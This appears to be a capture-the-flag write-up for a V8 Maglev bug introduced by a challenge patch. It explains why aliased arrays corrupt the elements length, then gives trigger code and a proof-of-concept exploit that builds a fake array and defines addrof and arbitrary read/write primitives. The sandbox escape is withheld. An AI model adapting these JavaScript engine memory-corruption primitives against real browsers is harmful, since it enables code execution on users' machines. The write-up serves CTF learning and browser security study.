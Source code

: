 # PlaidCTF

## RCA

The compiler lacks alias analysis, thus it treats an array with two names as two distinct arrays. Typically, it clears all known properties if a store operation occurs. However, the patch changes `kStore` to `kLoad`, preventing the compiler from clearing all known properties. Consequently, pushing with two aliases of an array results in reading the length from two different caches. This leads to a failure in expanding the elements array due to an incorrect length.

The vuln can be triggered by the following code:

```javascript
let cor_arr;
let arr = [];
let arr2 = arr;
function f() {
        arr2.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr2.push(2.2);
        % DebugPrint(arr);
        % DebugPrint(cor_arr);
}
  
% PrepareFunctionForOptimization(f)
f();
f();
% OptimizeMaglevOnNextCall(f);
arr = [];
arr.push(1.1);
cor_arr=[1.1,2.2,3.3,4.4];
arr2=arr;

f();
```

Regarding the V8 sandbox escape method, I utilized a previously discovered technique. I may disclose it when possible. 

## POC

I will put the public version of the exploit here. The exploit strategy involves overwriting the elements of an object array with the address of a fake array object with an extraordinarily long length. This allows us to achieve the addrof and aar/w primitives through out-of-bounds read and write operations with the fake array.

```javascript
new ArrayBuffer(0x7fe00000);
new ArrayBuffer(0x7fe00000);
let fakeobj_arr = [3.79625217988789578926595419814E-311, 1.11253693094151915301246343349E-308, 3.3, 4.4];
let float_arr = [1.1, 2.2, 3.3, 4.4];
let obj_arr = [fakeobj_arr, fakeobj_arr];

new ArrayBuffer(0x7fe00000);
new ArrayBuffer(0x7fe00000);

class Helpers {
    constructor() {
        this.buf = new ArrayBuffer(8);
        this.dv = new DataView(this.buf);
        this.u8 = new Uint8Array(this.buf);
        this.u32 = new Uint32Array(this.buf);
        this.u64 = new BigUint64Array(this.buf);
        this.f32 = new Float32Array(this.buf);
        this.f64 = new Float64Array(this.buf);

        this.roots = new Array(0x30000);
        this.index = 0;
    }

    pair_i32_to_f64(p1, p2) {
        this.u32[0] = p1;
        this.u32[1] = p2;
        return this.f64[0];
    }

    i64tof64(i) {
        this.u64[0] = i;
        return this.f64[0];
    }

    f64toi64(f) {
        this.f64[0] = f;
        return this.u64[0];
    }

    set_i64(i) {
        this.u64[0] = i;
    }

    set_l(i) {
        this.u32[0] = i;
    }

    set_h(i) {
        this.u32[1] = i;
    }

    get_i64() {
        return this.u64[0];
    }

    ftoil(f) {
        this.f64[0] = f;
        return this.u32[0]
    }

    ftoih(f) {
        this.f64[0] = f;
        return this.u32[1]
    }

    add_ref(object) {
        this.roots[this.index++] = object;
    }

    mark_sweep_gc() {
        new ArrayBuffer(0x7fe00000);
    }

    scavenge_gc() {
        for (var i = 0; i < 8; i++) {
            // fill up new space external backing store bytes
            this.add_ref(new ArrayBuffer(0x200000));
        }
        this.add_ref(new ArrayBuffer(8));
    }

    hex(i) {
        return i.toString(16).padStart(16, "0");
    }

    breakpoint() {
        this.buf.slice();
    }
}

var helper = new Helpers();

// =================== //
//     Start here!     //
// =================== //

let cor_arr;
let arr = [];
let arr2 = arr;
function f() {
    cor_arr = [arr,arr];
    arr2.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr2.push(7.7);
    arr2.push(1.11976954038269569130094751573E-307);
}
  
for (var i = 0; i < 0x1000; i++) {
    f();
}


arr = [];
arr.push(1.1);

arr2 = arr;
f();


let cor = cor_arr[0];

function aar(address) {
    cor[12] = helper.pair_i32_to_f64(address - 8, 0x80);
    return float_arr[0];
}

function aaw(address, value) {
    cor[12] = helper.pair_i32_to_f64(address - 8, 0x80);
    float_arr[0] = value;
}


function addrof(obj) {
    obj_arr[0] = obj;
    return helper.ftoil(cor[14]);
}
```
